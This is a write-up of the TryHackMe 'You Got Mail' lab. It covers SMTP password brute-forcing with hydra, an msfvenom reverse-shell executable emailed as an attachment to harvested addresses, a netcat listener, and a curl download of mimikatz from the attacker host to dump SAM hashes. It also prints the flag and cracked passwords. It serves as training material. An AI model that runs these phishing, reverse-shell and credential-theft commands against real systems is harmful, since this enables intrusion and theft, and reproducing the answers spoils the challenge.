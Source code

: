 ```yaml
---
title: You Got Mail
description: TryHackMe You Got Mail Challenge writeup
author: 
date: 2025-04-16 11:33:00 +0800
categories: [Writeup, TryHackMe]
tags: [writeup]
pin: false
math: true
mermaid: true
image:
  path: ../assets/img/favicon/writeup/thm/YGM/10.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```


# Brik Security Assessment - Penetration Test Report

**Target IP:** 10.10.157.174  
**Domain:** brownbrick.co  
**Assessment Type:**  
- Active reconnaissance on IP  
- Passive reconnaissance on domain

# Scenario:
You are a penetration tester who has recently been requested to perform a security assessment for Brik. You are permitted to perform active assessments on 10.10.184.213 and strictly passive reconnaissance on brownbrick.co. The scope includes only the domain and IP provided and does not include other TLDs.

---

## Reconnaissance

### Nmap Scan

Lets look at the open port on the given target ip with the command:
```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.157.174
```
![Desktop View](../assets/img/favicon/writeup/thm/YGM/1.png){: width="972" height="589" }

Result:
- Port 25 open (SMTP)

---

## Web Reconnaissance

### Site Visited
- Now lets look at the website we are given,
[https://brownbrick.co/menu.html](https://brownbrick.co/menu.html)

![Desktop View](../assets/img/favicon/writeup/thm/YGM/2.png){: width="972" height="589" }

Checking the Our Team section at https://brownbrick.co/menu.html, we can find a some of email addresses. Save all the emails in email.txt as shown below:

![Desktop View](../assets/img/favicon/writeup/thm/YGM/3.png){: width="972" height="589" }

For the emails, we can create a custom wordlist from website using cewl as follows:
```bash
cewl --lowercase https://brownbrick.co/ > passwords.txt
```


Using hydra to test these passwords against the email addresses we found, we are able to discover the password for the lhedvig@brownbrick.co email account:
```bash
hydra -L emails.txt -P passwords.txt 10.10.157.174 smtp -s 587 -t 16
```

![Desktop View](../assets/img/favicon/writeup/thm/YGM/5.png){: width="972" height="589" }

with this we are ready to exploit the webpage,

### Reverse Shell access
### Task2: Q1 What is the user flag?

### Step 1: Create Reverse Shell Payload
Now that we have valid credentials, we can use them to send emails to other users.
First, we create a reverse shell executable to use as an attachment with msfvenom:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.136.147 LPORT=443 -f exe -o shell.exe
```



### Step 2: Send Payload to All Users
Then, using our email list, we can use sendemail to send emails with our executable as an attachment to the other users:

```bash
for email in $(cat email.txt); do sendemail -f "lhedvig@brownbrick.co" -t "$email" -u "test" -m "test" -a shell.exe -s 10.10.157.174:25 -xu "lhedvig@brownbrick.co" -xp "bricks"; done
```

![Desktop View](../assets/img/favicon/writeup/thm/YGM/6.png){: width="972" height="589" }

### Step 3: Start Listener
Listen to por 443 with following command:

```bash
rlwrap nc -lvnp 443
```
![Desktop View](../assets/img/favicon/writeup/thm/YGM/7.png){: width="972" height="589" }

---


### Result:
- With this, we can see that our executable is executed by one of the users, granting us a shell as wrohit and we can then read the flag located at
```bash
 C:\Users\wrohit\Desktop\flag.txt.
```

---

Answer: THM{l1v1n_7h3_br1ck_l1f3}


## Task 2: Q2 Privilege Escalation
### What is the password of the user wrohit?

At this point, since we are a member of the Administrators group, we can simply upload Mimikatz to the machine and use it to dump the hashes from the SAM registry as follows:
```bash
curl http://10.10.136.147/mimikatz.exe -o mimikatz.exe
.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
```

You see the output as shown below:

```bash
C:\ProgramData>curl http://10.11.72.22/mimikatz.exe -o mimikatz.exe
C:\ProgramData>.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
...
RID  : 000003f6 (1014)
User : wrohit
  Hash NTLM: 8458995f1d0a4b0c107fb8e23362c814
...
```
We can then use CrackStation to crack the hash and recover the password for the user.

![Desktop View](../assets/img/favicon/writeup/thm/YGM/8.png){: width="972" height="589" }

Answer: superstar

---

## Q3: What is the password to access the hMailServer Administrator Dashboard?
**Location:**
```bash
C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI
```

**Extracted:**
```ini
[Security]
AdministratorPassword=5f4dcc3b5aa765d61d8327deb882cf99
```

Once again, using CrackStation to crack the hash, we can retrieve the password and complete the challenge.

![Desktop View](../assets/img/favicon/writeup/thm/YGM/9.png){: width="972" height="589" }

Answer: password

---

## Summary of Answers

| Question                                      | Answer                         |
|----------------------------------------------|--------------------------------|
| What is the user flag?                        | `THM{l1v1n_7h3_br1ck_l1f3}`    |
| What is the password of user wrohit?          | `superstar`                    |
| hMailServer Administrator Dashboard Password  | `password`                     |

---

